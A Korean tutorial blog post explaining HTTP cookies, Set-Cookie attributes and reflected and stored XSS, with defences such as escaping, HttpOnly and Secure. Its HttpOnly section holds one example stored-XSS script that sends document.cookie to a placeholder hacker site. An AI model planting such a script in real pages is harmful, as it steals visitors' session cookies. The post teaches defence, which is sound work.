




여러분은 쿠키에 대해서 들어보신 적이 있나요? 혹시 이렇게 생긴 음식인가요? 🍪
만약 그렇다면, 오늘은 다른 쿠키에 대해서 알아보도록 하겠습니다. 여러분도 웹사이트를 이용하다가 쿠키를 이용해보신 경험이 있을 겁니다. 아래 사진을 볼까요?

<figure>
  
  <figcaption figcaption>스택오버플로우의 쿠키 수집 허용 팝업</figcaption>
</figure>

[스택오버플로우](https://stackoverflow.com/)에 접속하면 볼 수 있는 팝업입니다. '모든 쿠키 허용' 버튼을 클릭하면 우리 기기의 쿠키를 저장하고, 자사 쿠키 정책에 따라 정보를 공개할 수 있다고 하네요. 그렇다면 쿠키란, 대체 무엇일까요? 우리는 쿠키를 아무렇게나 허용해도 되는 것일까요?

## TL;DR

> 1. 쿠키는 HTTP 헤더를 통해 서버와 클라이언트 간에 주고 받는 데이터입니다.
> 2. XSS 공격을 통해 쿠키를 탈취당할 수 있습니다.
> 3. 쿠키 탈취를 방지하기 위해 HttpOnly, Secure 등의 옵션을 이용할 수 있습니다.
> 4. 민감한 정보를 포함하지 않는다면 쿠키 사용을 고려할 수 있습니다.

## HTTP

쿠키를 알기 위해선 먼저 HTTP에 대해서 알아야 합니다. HTTP는 **HyperText Transper Protocol**의 약어로, 간단하게 말해서 HTML 문서와 같은 리소스들을 가져올 수 있도록 해주는 일종의 규약입니다. 웹에서 이루어지는 모든 데이터 교환의 기초이고, 클라이언트-서버 프로토콜이기도 합니다. 결국 우리는 HTTP를 통해 필요한 정보를 서버에 요청하고, 마찬가지로 HTTP를 통해 요청에 대한 응답을 받는 것이죠.

HTTP는 상태가 없습니다. 이 말은, 서버가 HTTP 요청을 받았을 때 어떤 브라우저에서 보낸 요청인지 알 수 없고, 각 요청은 독립적이라는 것을 뜻합니다. 그렇다면 로그인, 사용자 지정 테마, 장바구니 등의 정보를 기록하기 위해선 어떻게 해야 할까요? 이를 해결하기 위해 등장한 것이 바로 쿠키입니다.

## 쿠키

자, 이제 쿠키에 대해서 자세히 알아보도록 하겠습니다.

쿠키는 쉽게 말해서 프론트엔드에서 저장하고 관리하는 데이터입니다. 서버에서 `Set-Cookie`를 Response Header에 담아 내려주면 클라이언트는 이를 자동으로 저장합니다. 경우에 따라서는 쿠키 데이터를 자체적으로 조작할 수도 있고, 수명을 정할 수도 있습니다.

### 쿠키의 작동 방식

<figure>
  
  <figcaption figcaption>쿠키의 작동 방식</figcaption>
</figure>

쿠키는 위와 같은 흐름으로 작동합니다. 브라우저가 서버에 요청을 보내면 서버는 HTTP 헤더에 쿠키를 담아서 응답합니다. 브라우저는 이를 자동으로 저장하고, 다음 요청을 보낼 때 HTTP 헤더에 저장해둔 쿠키를 담아서 전달합니다. 서버는 쿠키를 읽고 유저 정보를 확인 후 적절한 응답을 합니다. 만약 서버에서 쿠키에 업데이트가 발생한다면, 응답할 때 업데이트된 쿠키를 다시 한번 넘겨줍니다.

### Set-Cookie

쿠키는 기본적으로 서버에서 생성할 수 있고, 앞서 말씀드린 것과 같이 **Set-Cookie**라는 옵션을 통해 쿠키 정보를 설정할 수 있습니다. Set-Cookie는 Key=Value 형태로 되어 있고, 브라우저는 이 값을 파싱한 뒤 알아서 쿠키에 데이터를 저장합니다. 쿠키에는 다음과 같은 옵션을 설정할 수 있습니다.

- **Expires**: 쿠키 만료 날짜
- **Secure**: HTTPS에서만 쿠키를 전송
- **HttpOnly**: Javascript 코드를 통한 쿠키 접근을 방지 (이를 통해 XSS 공격에 대응 가능)
- **Max-Age**: 쿠키 수명 설정 (이 때, Expires는 무시)
- **Domain**: 도메인이 일치하는 요청만 쿠키 전송
- **Path**: 경로가 일치하는 요청만 쿠키 전송

<br />

참고로 하나의 Set-Cookie에는 하나의 쿠키만을 담을 수 있기 때문에 응답 헤더는 다음과 같은 형태가 됩니다.

```
HTTP/1.0 200 OK
Content-type: text/html
Set-Cookie: choco_cookie=choco; Max-Age=0; Path=<경로>
Set-Cookie: white_cookie=white
```

반면, 클라이언트는 쿠키를 전달할 때 세미 콜론(;)으로 여러 개의 쿠키를 구분하여 나열할 수 있습니다.

```
GET /sample_page.html HTTP/1.1
Host: www.example.org
Cookie: choco_cookie=choco; white_cookie=white;
```

### 쿠키의 보안성

쿠키는 브라우저에 저장되기 때문에 다음과 같은 문제를 수반합니다.

1. 쉽게 잃어버릴 수 있다.
2. 쉽게 변경될 수 있다.
3. 쉽게 도난당할 수 있다.

브라우저의 개발자 도구를 이용하면 쿠키를 쉽게 확인할 수 있고, 삭제할 수 있습니다. 또 누군가가 내가 전송한 HTTP 요청을 가로챈다면, 요청 헤더에 포함된 민감한 쿠키 정보를 열람할 수 있을 것입니다. 심지어 쿠키는 브라우저에 저장되기 때문에 자바스크립트 코드로 접근할 수도 있습니다. 이는 곧 심각한 문제로 이어지게 될 것입니다.

## XSS

이런 쿠키의 취약점을 활용한 공격 방법에 대해 알아보겠습니다.

XSS는 **Cross Site Scripting**의 약자로, 줄이면 CSS가 되는 것이 맞겠으나 CSS는 이미 Cascading Style Sheets의 어로 사용되고 있기 때문에 **XSS**라고 합니다.
XSS는 권한이 없는 사용자가 메일이나, Input, 게시판 등에 자바스크립트 등의 스크립트 코드를 삽입하여 개발자가 고려하지 않은 기능을 동작하도록 하는 공격 방법입니다.

XSS는 크게 Reflected-XSS, Stored-XSS 두 종류로 나뉩니다.

### Reflected XSS

Reflected XSS는 스크립트 코드를 입력하자마자 결과가 발생는 공격법을 말합니다. 웹 서버에 스크립트를 남기지 않는다는 것이 특징입니다. 단적인 예로 다음과 같은 상황을 가정할 수 있습니다.

`input` 창을 통해 이름을 입력 받고, 버튼을 클릭하면 이를 화면에 띄워주는 사이트가 있습니다.

<figure>
  
</figure>

이름을 입력하고 제출 버튼을 클릭하면 정상적으로 작동하는 것을 확인할 수 있습니다. 그럼, 다음과 같은 스크립트 코드를 입력하면 어떻게 될까요?

``

<figure>
  
</figure>

이렇게 `alert` 창이 실행됩니다! 지금의 경우에는 스크립트 코드에 악의적인 의도가 없어 보이지만, 공격자는 어떤 의도를 품고 있을지 모릅니다. 쿠키는 브라우저에 저장되어 있기 때문에 `document.cookie`와 같은 자바스크립트 코드로 접근할 수 있습니다. 만약 `alert` 함수 대신 `document.cookie`가 입력되어 있었다면 어떻게 될까요? 사용자의 정보가 노출되어 큰 문제가 발생할 수 있습니다. 상상만 해도 끔찍하네요😥

### Stored XSS

Stored XSS는 가장 일반적인 XSS 공격 유형으로, 스크립트 코드를 입력하고 서버에 저장되도록 합니다. 그래서 추후 사용자가 게시물을 열람할 때 공격자가 입력해놓은 스크립트 코드가 실행되어 사용자의 민감 정보가 유출되거나 기획된 공격에 노출될 수 있습니다. Reflected XSS와는 달리 서버에 스크립트를 남기기 때문에 다수의 사용자들에게 지속적으로 공격을 가할 수 있습니다.

Stored XSS는 방명록이나 게시판과 같이 기록을 남기는 공간에서 공격할 수 있습니다.

### XSS 대응 방안

1. **입력 값 제한**

   기본적으로 스크립트 코드를 삽입하지 못하도록 해야 합니다. HTML5에서는 이런 문제를 해결하기 위해 innerHTML을 통해 주입한 스크립트는 실행되지 않습니다. 하지만 `onerror` 이벤트 속성을 통해 주입한 스크립트는 여전히 작동합니다.

2. **입력 값 치환**

   `<`, `>` 등의 태그 문자를 [HTML Entity](http://www.tcpschool.com/html/html_text_entities)로 필터링 할 수 있습니다. HTML Entity는 대부분의 인터프리터에서 특수한 의미를 가지지 않기 때문에 태그로 인식되지 않습니다.

3. **httpOnly 옵션 사용**

   공격자는 다음과 같은 코드를 공개 게시판에 작성하여 사용자의 쿠키를 가로채려 시도합니다.

   ```jsx
   <script> location.href = '해커사이트주소?cookie=' + document.cookie </script>
   ```

   해당 게시물을 열람한 사용자들은 해커 사이트로 이동하여 쿠키 정보를 노출하게 됩니다. `httpOnly` 옵션을 활용하면 브라우저에서 쿠키에 접근하는 것을 방지할 수 있습니다. 브라우저에서는 일반적으로 쿠키에 접근할 일이 크게 없기 때문에 `httpOnly` 옵션은 기본적으로 적용하는 것이 좋습니다. 참고로 `httpOnly` 옵션은 브라우저에서 설정할 수 없고, 항상 서버에서만 설정할 수 있는 옵션입니다.

   ```java
   Set-Cookie: 쿠키명=쿠키값; path=/; HttpOnly
   ```

4. **Secure 옵션 사용**

   이제 `httpOnly` 옵션을 통해 브라우저에서 쿠키에 접근하는 것은 방지할 수 있습니다. 하지만 쿠키는 HTTP 헤더를 통해 전송되고, 와이어 샤크 등과 같은 프로그램으로 네트워크 감청을 할 수 있다는 것은 널리 알려진 사실입니다. 이러한 통신 상 정보 유출을 방지하기 위해 HTTPS 프로토콜을 사용하여 데이터를 암호화할 수 있습니다. 그리고 `Secure` 옵션은 HTTPS 상에서 암호화된 요청일 경우에만 쿠키를 전송하도록 합니다.

## 맺음

최근에는 쿠키의 취약점을 해결하기 위해 유저 세션 정보를 서버에서 관리하는 **세션 방식**이나, 암호화된 토큰을 이용하는 **JWT 방식**을 사용하기도 합니다. 그렇다고 해서 쿠키가 전혀 사용되지 않는 것은 아닙니다. 사용자 인증과 같은 민감 정보는 세션, 혹은 JWT 토큰으로 관리하고, 개인 설정과 같은 정보는 쿠키로 이용하는 것이 도움이 될 수 있습니다. 이처럼, 상황에 맞게 적절한 방식을 고민하고 사용하는 것이 중요하겠습니다. 이 글이 쿠키 사용을 고려하고 있는, 혹은 쿠키 허용 버튼을 아무렇게나 눌러도 되는지 고민하고 있는 분들에게 도움이 되면 좋겠습니다🙏
